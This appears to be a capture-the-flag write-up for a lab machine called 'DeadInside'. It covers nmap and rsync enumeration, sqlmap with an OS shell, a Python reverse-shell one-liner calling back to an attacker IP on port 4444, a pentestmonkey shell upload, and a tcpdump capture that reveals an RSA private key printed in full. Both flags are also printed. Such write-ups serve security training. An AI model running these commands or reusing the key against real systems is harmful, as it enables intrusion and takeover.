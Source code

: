 # DeadInside

## Enumeration
```bash
└─$ nmap -A -p- -sC -T4 10.10.250.34 -oX nmap.out
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-29 11:10 BST
Nmap scan report for 10.10.250.34
Host is up (0.037s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f7:0f:0a:18:50:78:07:10:f2:32:d1:60:30:40:d4:be (RSA)
|   256 5c:00:37:df:b2:ba:4c:f2:3c:46:6e:a3:e9:44:90:37 (ECDSA)
|_  256 fe:bf:53:f1:d0:5a:7c:30:db:ac:c8:3c:79:64:47:c8 (ED25519)
80/tcp  open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
873/tcp open  rsync   (protocol version 31)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
## Exploitation

### I download all the files that I found

```bash
└─$ rsync -av --list-only rsync://10.10.250.34:873/
Conf All Confs

└─$ rsync -av --list-only rsync://10.10.250.34:873/Conf/
...
access.conf

└─$ rsync -av --list-only rsync://10.10.250.34:873/Conf/access.conf access.conf
cat access.conf 
```
### I've changed the contents of the webapp.ini file because on the website it says something like "keep the door closed" and in the file a door field is here with writing closed.

webapp.ini

door = opened

### Exploit the sql database to got a shell as rick

sqlmap -u http://10.10.250.34/door/config.php --level 5 --risk 3 --batch -D db --os-shell --forms
```bash
> python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.37.214",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'

python3 -c 'import pty; pty.spawn("/bin/bash")'
```
### upload pentestMonkey in the box, reverseshell to get a shell as rick

## User FLAG

```cat /home/rick/user.txt``` : EPI{W3_r_73h_w4lk1n9_D34D}

## Privilege Escalation

### linpeas = tcpdump

tcpdump -i lo -w file.cap
```bash
cat file.cap :

-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAtb/gJ/0hjWELlcYLzexponv3FWbz1r4g9w4htwEWqvbFfoxb
JKPi0xzn+gTEqi8I0uKW+gILfRG03gtv2RrMYPNK2exLuWqnb9ZPyLD3xETtollU
lR5DbWiEAtIFLOItdtXrP7hF0fi2Vc3H+4bFEhLPHzgwH068Xs5n+YviOFz4XOtW
DZOEA6XrpqcxPaMhksCcTPi9clvrioOyKEpnXTXQzWuma0pckclYvbh4vEwQp5n0
/rpgEMT7MRMT3CsDEfZOS2oAOfswc9WzDlbrQ7ghuHk2EMHrA/sI5M0N4GWeE12v
lld3CAKWp9MkB9g84qJdmt5QFk4tLYh08qaaeQIDAQABAoIBAHww5oysrXab73yi
XYKSnwQGTSn0tX3xYTkwEN2qAsFD6mO0qLr6uY2kXOc8xt27Uf44Ew42w37s0HhB
vGXPqAQ/etA6ZOwH8u26tb3fHw6gQvkCrYdPrKdgGYSL2jl3O7XOKvfZhOwbVQyA
lrxKtPLKo3kjvc5G0PS/edDNQwFbbjA0zf43GOFfW/ahOQu82iVfkDtrjmTnqB5/
O4pjmkNuTR9E6BStL5vZJoLK0W5lc9bgHa1TgyRzkK8iKKen+kohWrJUjQnK0f8z
/LTZuNwuOWZ60ckaQPJhAqdRbXOJ5gm0r9hStSN+ncKOYlLSdFz9Opskp4aDTGQa
zEzzjGECgYEA6VFeVzL2UcP+JCgtpBZHpRNUiCO7yjvfLFIeeDJKY1sKefLSz4mb
KiSFodWf1nsZydhRM25pXWfk17X7up/ocgs8gCkOQAiYM8AkzZ60egiehPD4Pv4h
cPJMSNEoq1cTlOJFmmPMk5dwj8kp12IkSgFNlLRd7vD9yVJbkC1MP20CgYEAx2sd
awpIu7T4P+ttFGQi+/nrNNTZ4fr9IrMK7VObuF9HG3YH3t1DkEOqk5zerYVVP9J5
bIbsSv9dBysWqe6Ftrtzrk5bhpRIy4E/etEoMGqzmMA1SZkI8P5E9AzN/F03C2xq
p9s2fexqdf5RpdGujpSJda0fZki01jDznHUjg70CgYEAmk0zxRtxB5ZE5wijVpdd
fnCQQRDQyuhZqegNOpSX2amF/ix2+sYYlgBdWC/9a00yOukSmp70k8936qjx9/R1
N6bythdw0yxb7C2wqUPCO8qje2wZ4R8UYqv7g1TAPsBxtM8IFRjXXOyUhqMVRtoj
AcZm1meKj9FVJeWPpIQwnukCgYB7UGN6o3tih3/TlvN23o07n8mwe8bYFOqfoHOr
Wj46/r/r3Ur0p4J2HUHH0gNo7cBPnQl08OIBZnPSUPTM1DBfVP8t1EqIp/1zylLE
0b22YuT4GjNZdYav76wX9isSWVoGeF5jugyyRZV3rXIzxbvZc0SlPg7ioycgJFkg
cNcrSQKBgB2vGOzFapRM2zfukNXmtHLrO/+U6yXwj+VuJtDO/lwdORCaQGNEobs4
U8NEWvUEM0vdvJCKwpFLK784YKug4LUhJlc1DYRYxF9Ct+er/mQKuFd/tiSvKoqz
gOFPkMMr6+LJjvzfFZqaGwHFuT0W44THPSRNfuWaoTqnF/7KhrWy
-----END RSA PRIVATE KEY-----

chmod 600 id_rsa
ssh -i id_rsa root@<IP>

cd /root
```
## Root FLAG

```cat root.txt``` : EPI{9R0w1N9_Up_12_93771n9_u53D_70_73H_W0rld}

### Write up to help me for the box
source : https://related.cupprs.com/metamorphosis/
